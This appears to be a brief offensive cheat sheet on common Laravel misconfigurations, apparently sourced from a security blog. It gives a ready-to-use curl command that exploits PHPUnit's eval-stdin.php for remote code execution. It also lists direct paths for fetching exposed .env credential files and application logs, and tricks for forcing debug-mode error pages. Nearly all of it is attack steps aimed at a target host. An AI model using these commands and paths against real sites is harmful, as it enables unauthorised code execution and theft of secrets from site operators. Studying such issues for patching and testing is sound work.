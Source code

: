 # Common bug in laravel framework
1. Laravel PHPUnit Remote Code Execution
* Full Path Exploit : http://target.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
* Affected versions : Before 4.8.28 and 5.x before 5.6.3

Command
```
curl -d "<?php echo php_uname(); ?>" http://target.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

2. Exposed environment variables 
* Full Path Exploit : http://target.com/.env

![Environment Variables](https://1.bp.blogspot.com/-EUTxgP5XE6Q/XkgB4SyWSbI/AAAAAAAAAQA/eqtALOjLKKA46si-lIosm6cDVmxByjzIQCLcBGAsYHQ/s1600/1.png)

3. Exposed log files
* Full Path Exploit : http://target.com/storage/logs/laravel.log

4. Laravel Debug Mode Enabled
* Using SQL injection query in GET or POST method
* Try path /logout (ex:target.com/logout)
* Using [] in paramater (ex:target.com/param[]=0)

![Laravel Debug Mode](https://hacken.io/wp-content/uploads/2019/07/laravel-screen.png)

Source: [Nakanosec](https://www.nakanosec.com/2020/02/common-bug-pada-laravel.html)
